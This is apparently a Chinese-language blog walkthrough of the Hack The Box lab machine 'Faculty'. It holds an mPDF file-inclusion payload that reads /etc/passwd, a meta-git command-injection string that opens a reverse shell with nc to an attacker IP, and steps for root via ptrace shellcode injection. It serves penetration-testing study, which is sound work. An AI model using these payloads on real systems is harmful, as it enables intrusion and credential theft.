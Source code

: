 # Faculty

Faculty 是一台中型 Linux 机器，具有 PHP Web 应用程序，该应用程序使用的库容易受到本地文件包含的影响。利用该库中的 LFi 会泄露一个密码，该密码可用于通过 SSH 以名为“gbyolo”的低级用户身份登录。用户“gbyolo”有权作为“developer”用户运行名为“meta-git”的“npm”包。此机器上安装的“meta-git”版本容易受到代码注入攻击，可利用该版本将权限升级到用户“developer”。通过利用“CAP_SYS_PTRACE”功能将 shellcode 注入到以“root”身份运行的进程中，可以将权限提升到“root”。

---

## 外部信息收集

### 端口扫描

循例nmap

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/b8ee983f-c44a-cdda-ea78-7533f6b94fef.png)

### Web枚举

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/a83c9067-9eff-b0e2-465b-b3adf0052c1d.png)

gobuster扫目录

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/8111c374-a9e0-d6cf-6adb-3048292e1bfa.png)

admin/

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/bee5dd5f-3258-a8a7-15a7-fb0df1f4d4c1.png)

这里会转pdf

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/d5823ffa-7fd6-54ed-5718-ba3101c9f8b5.png)

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/40ed8b43-9430-a33c-05b0-a78d56464cf4.png)

download.php，通过html进行url编码后再转base64直接生成pdf

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/95c3bbe1-b5a7-d745-aef8-d06e03445e34.png)

尝试打XHR，但没成功

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/7049f4e4-036c-97c5-ba57-904afef55aed.png)

从pdf属性看到又是mPDF

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/da13edf9-3f62-3daf-c0af-a74eb8a71292.png)

谷歌能找到一个7.0版本的LFI

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/1699caad-4b0d-49fd-76dd-fc4a88b2436f.png)

payload

```html
<annotation file="/etc/passwd" content="/etc/passwd" icon="Graph" title="Attached File: /etc/passwd" pos-x="195" />
```

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/86aba4c9-72d0-77ef-0c25-5844b7571c7e.png)

能读到

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/ea4c743b-15a7-c8cf-1fea-f0acba69dc96.png)

读/etc/nginx/sites-enabled/default

```xaml
server {
	listen 80 default_server;
	listen [::]:80 default_server;

	root /var/www/html;

	# Add index.php to the list if you are using PHP
	index index.html index.htm index.nginx-debian.html;

	server_name _;

	rewrite ^ http://faculty.htb;
}
```

## Foothold

绝对路径找不到真正的网站根目录，但可以相对路径读

login.php

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/81c4570a-b93c-03b8-fde4-55d8f46ee08b.png)

db_connect.php读到一组凭据

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/a16ae6dc-29d0-bcc6-0897-f352a6099a2e.png)

密码重用于gbyolo账户，我们能够通过它登录ssh

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/13e30c6e-a5de-6a7d-9689-fd702bf334ac.png)

## 本地横向移动 -> developer

sudo -l

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/381c680f-869f-ac7a-efb7-3e1f21d55965.png)

在谷歌能够找到一篇meta git会受命令注入漏洞影响的[文章](https://huntr.com/bounties/1-npm-meta-git/)

通过poc，能够执行命令创建文件

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/17008efa-f208-00c4-24fe-fcbfd7d6da1d.png)

reverse shell payload

	'sss||mkfifo /tmp/f1;nc 10.10.14.18 8888 < /tmp/f1 | /bin/bash > /tmp/f1 #'

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/5aff8a34-a439-696d-f7e6-41d11c6b1ec5.png)

## 本地权限提升

getcap

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/550bbfe7-aa77-a6c6-d413-a033fff05369.png)

[HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_sys_ptrace)提供了利用方法

msfvenom生成shellcode

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/de224b1f-3fba-4a5c-095c-7f58105355b3.png)

利用python脚本生成payload

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/1c83d881-4710-3fcc-b333-21319caec86f.png)

gdb

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/3cc23139-6668-67e7-2fbc-25ae64ec3fff.png)

get root

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/d75ae186-d5c0-9d3d-d207-8f821471dd15.png)

